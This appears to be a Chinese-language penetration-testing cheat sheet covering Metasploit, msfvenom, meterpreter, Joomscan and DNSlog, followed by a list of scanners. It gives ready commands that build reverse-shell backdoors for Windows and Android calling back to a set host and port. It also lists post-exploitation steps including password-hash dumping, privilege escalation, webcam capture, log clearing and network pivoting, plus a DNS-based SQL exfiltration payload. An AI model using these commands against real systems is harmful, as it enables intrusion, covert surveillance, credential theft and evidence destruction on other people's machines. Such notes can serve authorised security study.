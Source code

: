 综合框架
----------------------------------------

metasploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Terminal下msf常用命令简介
	+ msf数据库初始化
		``msfdb init``
	+ msf更新
		``apt install metasploit framework``
	+ 多平台攻击载荷生成器
		``msfvenom``
	+ 将汇编指令转换成为对应的16进制机器码
		``msf-nasm_shell``
	+ 打开msf终端
		``msfconsole``
- msf终端下常用命令简介
	+ 查看数msf据库连接状态,连接数据库能够优化搜索等过程
		``db_status`` 
	+ 重建缓存，将模块等索引重新存入数据库
		``db_rebuild_cache``
	+ 调用nmap扫描，并将扫描结果存入数据库
		``db_nmap``
	+ 显示命令的帮助信息
		``help [db_connect]``
	+ 搜索含有关键字的模块
		``search [module]``
	+ 选择模块
		``use [module]``
	+ 显示该模块支持的payload
		``show payload``
	+ 显示该模块需要设置的参数(其中required为no的表示不是必须的参数)
		``show options``
	+ 如果觉得show命令显示的不够完整可以直接输入info查看详细详细
		``info``
	+ 使用模块后，设置模块所需要的参数的值(对应使用unset取消设置的值)
		``set [opt]``
	+ 设置全局参数，对于ip之类的参数可以设置为全局，当切换模块后就不需要再次设置ip参数(对应使用unsetg取消设置)
		``setg [opt]``
	+ 返回上级状态
		``back``
	+ 两个命令都表示运行攻击模块
		``exploit/run``
	+ 查看当前连接的会话
		``sessions``
- 使用msfvenom生成木马文件
	+ 查看可使用的载荷/编码器/nops/所有列表
		``msfvenom -l payload/encoders/nops/all``
	+ 生成exe木马
		``msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.16.99 lport=4444 -a x64 -f exe -o backdoor_raw.exe`` 
	+ 生成apk木马
		``msfvenom -p android/meterpreter_reverse_tcp lhost=192.168.16.99 lport=4444 -o backdoor_raw.apk``
- meterpreter后渗透利用
	+ 打印当前工作目录：pwd
	+ 查看系统信息：sysinfo
	+ 查看当前目标机上运行的进程列表和pid：ps
	+ 调用相机拍摄照片：webcam_snap
	+ 运行vnc远程查看屏幕：run vnc
	+ 远程桌面3389（windows）：run post/windows/manage/enable_rdp
	+ 截取目标主机当前屏幕​：screenshot
	+ 获取当前权限的用户id：getuid
	+ 获取system权限：getsystem
	+ 获取用户名与hash口令：hashdump
	+ 获取目标主机shell(windows环境下中文乱码的解决办法:chcp 65001）：shell
	+ 退出shell模式，返回到meterpreter：Ctrl+Z
	+ 上传一个文件：upload
	+ 下载一个文件：download
	+ 执行目标系统中的文件(-f 指定文件，-i执行可交互模式，-H隐藏窗口)：excute
	+ 清除日志：clearev
	+ 将Meterpreter放入后台(使用session -i重新连接到会话)：background
- meterpreter内网渗透
	+ 获取目标主机上的子网状态：run get_local_subnets
	+ 使用autoroute模块添加到达内网的路由经session 1转发：run autoroute -s 169.254.0.0/16 1
	+ 查看当前的路由表：run autoroute -p
	+ 扫描内网存活主机：db_nmap
	+ 将目标主机192.168.16.59的3389转发到本地主机的7070端口：portfwd add -l 7070 -r 192.168.16.59 -p 3389
	+ 端口转发成功后就可以从本地端口连接rdp：rdesktop 127.0.0.1:7070

Joomscan
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 介绍
	+ Joomla security scanner可以检测Joomla整站程序搭建的网站是否存在文件包含、sql注入、命令执行等漏洞。
- 使用方法
	+ 默认检测：``joomscan -u www.example.com``
	+ 组件检测：``joomscan -u www.example.com –ec``
	+ 设置cookie：``joomscan -u www.example.com --cookie "test=demo;"``
	+ 随机UA：``joomscan -u www.example.com -r``
	+ 设置代理：``joomscan -u www.example.com --proxy http://127.0.0.1:8080``
	
dnslog
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 利用场景
	+ Sql-Blind
	+ RCE
	+ SSRF
	+ RFI（Remote File Inclusion）
- 原理
	将dnslog平台中的特有字段payload带入目标发起dns请求，通过dns解析将请求后的关键信息组合成新的三级域名带出，在ns服务器的dns日志中显示出来。
- 示例
	+ ``select load_file('\\\\',version(),'.dnslog地址')``

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- AWVS
- openvas
- nessus
- `PenTesters Framework(ptf) <https://github.com/trustedsec/ptf>`_
- katoolin
- `w3af <http://w3af.org/>`_
- `AutoSploit <https://github.com/NullArray/AutoSploit/>`_
- `skipfish <https://my.oschina.net/u/995648/blog/114321>`_
- `Arachni <http://www.arachni-scanner.com/>`_
- `Spiderfoot <https://github.com/smicallef/spiderfoot>`_
- `AZScanner <https://github.com/az0ne/AZScanner>`_
- `Fuxi <https://github.com/jeffzh3ng/Fuxi-Scanner>`_
- `vooki <https://www.vegabird.com/vooki/>`_
- `BadMod <https://github.com/MrSqar-Ye/BadMod>`_
- `xray <https://github.com/chaitin/xray>`_
- `x-scan <https://x-scan.apponic.com/>`_
